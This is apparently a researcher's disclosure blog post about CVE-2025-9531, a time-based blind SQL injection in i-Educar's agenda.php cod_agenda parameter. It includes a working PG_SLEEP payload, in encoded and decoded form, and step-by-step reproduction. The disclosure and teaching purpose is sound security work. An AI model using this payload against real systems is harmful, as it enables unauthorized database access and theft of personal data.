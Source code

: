 # CVE-2025-9531


How I Found a **Time-Based Blind SQL Injection** in i-Educar (With Real Delay and PoC).

<!--more-->

> ***🇧🇷 Ler em [Português](http://karinagante.github.io/pt-br/cve-2025-9531).***

## CVE-2025-9531

### Introduction

<p align="justify">While diving into the <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b> Open-Source project, I uncovered a critical time-based blind SQL Injection vulnerability in the <b>cod_agenda</b> parameter of the <b>agenda.php</b> endpoint. </br> This flaw allows attackers to execute arbitrary SQL queries silently against the backend database, putting data confidentiality, integrity, and availability at risk. </br> After validating the issue using a payload that caused measurable delays in the server's response, I reported it responsibly, and it was officially assigned as <b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b>. </p>

### What is CVE-2025-9531?

<p align="justify"><b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b> is a SQL Injection vulnerability in the <b>/intranet/agenda.php</b> endpoint of the <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b> application. </br> The vulnerable parameter is <b>cod_agenda</b>, which lacks proper input validation. </br> This makes it possible to inject custom SQL queries, including <code>PG_SLEEP()</code> functions that introduce time delays, confirming the flaw via time-based behavior. </p>

### Technical Details

➤ **Vulnerable Endpoint** `/intranet/agenda.php`

➤ **Affected Parameter:** `cod_agenda`

> ➤ **Payload Used (Encoded)**
> ```sql
>%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO
>```

> ➤ **Payload Used (Decoded)**
> ```sql
>' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
>```

### Proof of Concept (PoC)

To reproduce the vulnerability:

➤ Access the vulnerable endpoint and click **"Novo Compromisso"** (New Appointment)

➤ Fill in the required fields and click **"Salvar"** (Save)

➤ The system redirects to a URL like:

```URL
http://localhost:8086/intranet/agenda.php?cod_agenda=2&time=1755283
```
<br>
➤ Now, modify the `cod_agenda` parameter with the payload:

```URL
/intranet/agenda.php?cod_agenda=2' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
```
> <p align="justify">The server will take 5 seconds to respond, confirming that the SQL query was executed successfully.</p>

<p align="center">
<img src="/images/CVE-2025-9531/PoC1.png"><br>
</p>

{{<admonition tip Report>}}
You can access the full report and see the complete step-by-step instructions. Here:

{{< fa-icon regular github >}}
***[CVE-2025-9531 Report](https://github.com/KarinaGante/KGSec/blob/main/CVEs/i-educar/CVE-2025-9531.md)***
{{< /admonition >}}

### Impact

This vulnerability can be exploited to:

- Access sensitive data stored in the database;
- Enumerate database schemas, tables, and columns;
- Modify, delete, or insert arbitrary records;
- Steal user credentials and personal information;
- Perform a denial of service (DoS) attack by triggering long query delays;
- In some cases, escalate to Remote Code Execution (RCE).

### Official Sources

The flaw was ethically reported and attributed as:

{{< admonition important References>}} 
{{< fa-icon regular shield >}}
***[CVE-2025-9531 on CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-9531)***

{{< fa-icon regular database >}} 
***[VulDB Entry](https://vuldb.com/?id.321550)***
{{< /admonition >}}

### Conclusion

<p align="justify">SQL injection attacks remain one of the most critical threats to web applications, especially when silent and time-based. This discovery demonstrates how a single unvalidated parameter can compromise the entire database behind a platform. </br></br> If you're a developer or security analyst, be aware: <b>even small, seemingly harmless endpoints can hide dangerous flaws.</b></p>

## Credits

***Discovered with 💜 by [Karina Gante](https://karinagante.github.io/).***

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

> ***Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹***

